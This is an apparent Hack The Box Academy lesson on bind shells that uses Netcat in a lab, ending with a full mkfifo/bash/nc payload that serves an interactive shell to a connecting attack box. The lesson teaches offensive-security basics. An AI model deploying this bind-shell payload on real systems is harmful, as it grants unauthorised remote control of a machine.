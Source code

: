 # Bind Shells
- [Bind Shells](#bind-shells)
  - [**What Is It?**](#what-is-it)
    - [**Bind Example**](#bind-example)
  - [**Practicing with GNU Netcat**](#practicing-with-gnu-netcat)
    - [**No. 1: Server - Target starting Netcat listener**](#no-1-server---target-starting-netcat-listener)
    - [**No. 2: Client - Attack box connecting to target**](#no-2-client---attack-box-connecting-to-target)
    - [**No. 3: Server - Target receiving connection from client**](#no-3-server---target-receiving-connection-from-client)
    - [**No. 4: Client - Attack box sending message Hello Academy**](#no-4-client---attack-box-sending-message-hello-academy)
    - [**No. 5: Server - Target receiving Hello Academy message**](#no-5-server---target-receiving-hello-academy-message)
- [**Establishing a Basic Bind Shell with Netcat**](#establishing-a-basic-bind-shell-with-netcat)
    - [**No. 1: Server - Binding a Bash shell to the TCP session**](#no-1-server---binding-a-bash-shell-to-the-tcp-session)
    - [**No. 2: Client - Connecting to bind shell on target**](#no-2-client---connecting-to-bind-shell-on-target)

In many cases, we will be working to establish a shell on a system on a local or remote network. This means we will be looking to use the terminal emulator application on our local attack box to control the remote system through its shell. This is typically done by using a `Bind` &/or `Reverse` shell.

---

## **What Is It?**

With a bind shell, the `target` system has a listener started and awaits a connection from a pentester's system (attack box).

### **Bind Example**

![https://academy.hackthebox.com/storage/modules/115/bindshell.png](https://academy.hackthebox.com/storage/modules/115/bindshell.png)

As seen in the image, we would connect directly with the `IP address` and `port` listening on the target. There can be many challenges associated with getting a shell this way. Here are some to consider:

- There would have to be a listener already started on the target.
- If there is no listener started, we would need to find a way to make this happen.
- Admins typically configure strict incoming firewall rules and NAT (with PAT implementation) on the edge of the network (public-facing), so we would need to be on the internal network already.
- Operating system firewalls (on Windows & Linux) will likely block most incoming connections that aren't associated with trusted network-based applications.

OS firewalls can be troublesome when establishing a shell since we need to consider IP addresses, ports, and the tool in use to get our connection working successfully. In the example above, the application used to start the listener is called [GNU Netcat](https://en.wikipedia.org/wiki/Netcat). `Netcat` (`nc`) is considered our `Swiss-Army Knife` since it can function over TCP, UDP, and Unix sockets. It's capable of using IPv4 & IPv6, opening and listening on sockets, operating as a proxy, and even dealing with text input and output. We would use nc on the attack box as our `client`, and the target would be the `server`.

Let's get a more in-depth understanding of this by practicing with Netcat and establishing a bind shell connection with a host on the same network with no restrictions in place.

---

## **Practicing with GNU Netcat**

First, we need to spawn our attack box or Pwnbox and connect to the Academy network environment. Then make sure our target is started. In this scenario, we will be interacting with an Ubuntu Linux system to understand the nature of a bind shell. To do this, we will be using `netcat` (`nc`) on the client and server.

Once connected to the target box with ssh, start a Netcat listener:

### **No. 1: Server - Target starting Netcat listener**

```
Target@server:~$ nc -lvnp 7777Listening on [0.0.0.0] (family 0, port 7777)
```

In this instance, the target will be our server, and the attack box will be our client. Once we hit enter, the listener is started and awaiting a connection from the client.

Back on the client (attack box), we will use nc to connect to the listener we started on the server.

### **No. 2: Client - Attack box connecting to target**

```
th1nyunb0y@htb[/htb]$ nc -nv 10.129.41.200 7777Connection to 10.129.41.200 7777 port [tcp/*] succeeded!
```

Notice how we are using nc on the client and the server. On the client-side, we specify the server's IP address and the port that we configured to listen on (`7777`). Once we successfully connect, we can see a `succeeded!` message on the client as shown above and a `received!` message on the server, as seen below.

### **No. 3: Server - Target receiving connection from client**

```
Target@server:~$ nc -lvnp 7777Listening on [0.0.0.0] (family 0, port 7777)
Connection from 10.10.14.117 51872 received!
```

Know that this is not a proper shell. It is just a Netcat TCP session we have established. We can see its functionality by typing a simple message on the client-side and viewing it received on the server-side.

### **No. 4: Client - Attack box sending message Hello Academy**

```
th1nyunb0y@htb[/htb]$ nc -nv 10.129.41.200 7777Connection to 10.129.41.200 7777 port [tcp/*] succeeded!
Hello Academy
```

Once we type the message and hit enter, we will notice the message is received on the server-side.

### **No. 5: Server - Target receiving Hello Academy message**

```
Victim@server:~$ nc -lvnp 7777Listening on [0.0.0.0] (family 0, port 7777)
Connection from 10.10.14.117 51914 received!
Hello Academy
```

Note: When on the academy network (10.129.x.x/16) we can work with another academy student to connect to their target box and practice the concepts presented in this module.

---

# **Establishing a Basic Bind Shell with Netcat**

We have shown that we can use Netcat to send text between the client and the server, but this is not a bind shell because we cannot interact with the OS and file system. We are only able to pass text within the pipe setup by Netcat. Let's use Netcat to serve up our shell to establish a real bind shell.

On the server-side, we will need to specify the `directory`, `shell`, `listener`, work with some `pipelines`, and `input` & `output` `redirection` to ensure a shell to the system gets served when the client attempts to connect.

### **No. 1: Server - Binding a Bash shell to the TCP session**

```
Target@server:~$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```

The commands above are considered our payload, and we delivered this payload manually. We will notice that the commands and code in our payloads will differ depending on the host operating system we are delivering it to.

Back on the client, use Netcat to connect to the server now that a shell on the server is being served.

### **No. 2: Client - Connecting to bind shell on target**

```
th1nyunb0y@htb[/htb]$ nc -nv 10.129.41.200 7777Target@server:~$
```

We will notice that we have successfully established a bind shell session with the target. Keep in mind that we had complete control over both our attack box and the target system in this scenario, which isn't typical. We worked through these exercises to understand the basics of the bind shell and how it works without any security controls (NAT enabled routers, hardware firewalls, Web Application Firewalls, IDS, IPS, OS firewalls, endpoint protection, authentication mechanisms, etc...) in place or exploits needed. This fundamental understanding will be helpful as we get into more challenging situations and realistic scenarios working with vulnerable systems.

As mentioned earlier in this section, it is also good to remember that the bind shell is much easier to defend against. Since the connection will be received incoming, it is more likely to get detected and blocked by firewalls even if standard ports are used when starting a listener. There are ways to get around this by using a reverse shell which we will discuss in the next section.

Now, let's test our understanding of these concepts with some challenge questions.